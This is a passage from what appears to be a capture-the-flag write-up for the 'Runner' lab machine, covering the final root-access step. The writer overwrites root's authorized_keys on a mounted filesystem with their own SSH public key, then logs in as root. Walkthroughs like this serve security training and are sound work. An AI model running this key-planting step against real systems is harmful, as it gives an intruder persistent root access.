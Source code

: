 Now that we have access to the filesystem we can add our own ssh key's public key to the filesystem with the following command.

```bash
echo 'ssh-rsa <SNIPPED>  kali@kali' > /mnt/root/.ssh/authorized_keys
```

After doing this we can just log in using our own private key using ssh.

```bash
ssh root@Runner.htb
```

![Root SSH access](/assets/img/Runner/Runner_23.png)
